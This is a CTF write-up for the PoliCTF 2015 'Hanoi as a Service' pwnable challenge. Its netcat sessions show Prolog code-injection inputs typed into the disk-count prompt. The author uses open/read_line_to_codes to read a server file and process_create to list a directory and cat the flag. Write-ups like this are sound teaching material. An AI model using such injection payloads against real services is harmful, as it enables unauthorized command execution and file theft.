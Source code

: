 ```yaml
---
layout: post
title: "PoliCTF 2015 - Hanoi as a Service"
category: writeups
author: thezero
tags: pwnable polictf-2015
---
```


## Hanoi as a Service
Pwnable - 50 Points

Check out our shiny new HaaS platform!<br/>
`nc haas.polictf.it 80`

### Writeup

We started playing with the Hanoi service:
{% highlight console %}
thezero:~$ nc haas.polictf.it 80
Welcome to the Hanoi-as-a-Service cloud platform!
How many disks does your tower have?
3
* Move top disk from a to b
* Move top disk from a to c
* Move top disk from b to c
* Move top disk from a to b
* Move top disk from c to a
* Move top disk from c to b
* Move top disk from a to b
thezero:~$ nc haas.polictf.it 80
Welcome to the Hanoi-as-a-Service cloud platform!
How many disks does your tower have?
-1  
ERROR: Prolog initialisation failed:
ERROR: Out of local stack
{% endhighlight %}

Yeah, Prolog.<br/>
Tiping random input in prolog we landed on a Python exception talking about a `/home/ctf/haas/haas-proxy.py` file.<br/>
We want to read that file so bad that we ask to ocean (the CTF organizer) if it was Open Source :D<br/>

{% highlight console %}
thezero:~$ nc haas.polictf.it 80
Welcome to the Hanoi-as-a-Service cloud platform!
How many disks does your tower have?
0),shell("cat /home/ctf/haas/haas-proxy.py")
Nice try...
{% endhighlight %}

So, there are some checks on the input afterall ahaha<br/>
We tried reading the file with prolog itself<br/>

{% highlight console %}
thezero:~$ nc haas.polictf.it 80
Welcome to the Hanoi-as-a-Service cloud platform!
How many disks does your tower have?
0),open('/home/ctf/haas/haas-proxy.py',read,X),read_line_to_codes(X, A),write_ln(A
[35,33,47,117,115,114,47,98,105,110,47,101,110,118,32,112,121,116,104,111,110]
{% endhighlight %}

Converted the array to string
{% highlight javascript %}
var s=[35,33,47,117,115,114,47,98,105,110,47,101,110,118,32,112,121,116,104,111,110],s1=""
for(var i=0;i<s.length;i++){
   s1+=String.fromCharCode(s[i]);
}
console.log(s1)
// output: #!/usr/bin/env python
{% endhighlight %}

With this method we can only read the first line.<br/>
Reading the Prolog documentation we hit the "process_create/3" function.<br/>
MUAHAHAHAHAHAHAHAH<br/>

{% highlight console %}
thezero:~$ nc haas.polictf.it 80
Welcome to the Hanoi-as-a-Service cloud platform!
How many disks does your tower have?
0),process_create(path(ls),['-l','/home/ctf/haas'],[]
total 372
-rwxr-x--- 1 ubuntu ctf 369220 Jun  1 12:27 haas
-rwxr-x--- 1 ubuntu ctf   1572 Jun  1 12:27 haas-proxy.py
-r--r----- 1 ubuntu ctf     35 Jun  1 12:18 jhknsjdfhef_flag_here
thezero:~$ nc haas.polictf.it 80
Welcome to the Hanoi-as-a-Service cloud platform!
How many disks does your tower have?
0),process_create(path(cat),['/home/ctf/haas/jhknsjdfhef_flag_here'],[]
flag{Pr0gramm1ng_in_l0g1c_1s_c00l}
{% endhighlight %}


Game, Set, Match.

PS: As promised, the [haas-proxy.py sources](https://gist.github.com/TheZ3ro/869ca084df8f4d5d58ea)
